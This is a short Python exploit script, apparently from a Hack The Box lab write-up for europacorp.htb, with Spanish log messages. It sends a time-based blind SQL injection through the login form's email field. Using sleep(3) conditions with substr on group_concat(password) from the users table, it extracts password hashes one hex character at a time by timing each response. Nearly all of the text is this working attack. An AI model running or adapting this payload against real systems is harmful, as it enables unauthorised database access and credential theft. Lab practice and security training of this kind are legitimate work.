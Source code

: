 
```python
#!/usr/bin/python3

from pwn import *
import string
import urllib3
import sys, pdb, signal, time, requests


def def_handler(sig, frame):
    print("\n[!] Saliendo...!\n")
    sys.exit(1)

#ctrl_c
signal.signal(signal.SIGINT, def_handler)

#globlal vars
main_url = "https://admin-portal.europacorp.htb/login.php"
characters = string.digits + 'abcdef'
urllib3.disable_warnings()

def makeRequest():
    s = requests.session()
    s.verify = False
    
    p1 = log.progress("Fuerza Bruta")

    p1.status("Iniciando proceso de Fuerza Bruta")

    time.sleep(2)
    
    p2 = log.progress("Database")

    data = ""
    for position in range(1, 50):
        for character in characters:

            post_data = {
                    'email':"admin@europacorp.htb' and if(substr((select group_concat(password) from users),%d,1)='%s',sleep(3),1)-- -" % (position, character),
                    'password':'admin'
            }

            p1.status(post_data['email'])
            time_start = time.time()
            r = s.post(main_url, data=post_data)
            time_end = time.time()

            if time_end - time_start > 3:
                data += character
                p2.status(data)
                break
if __name__ == '__main__':
    makeRequest()

```
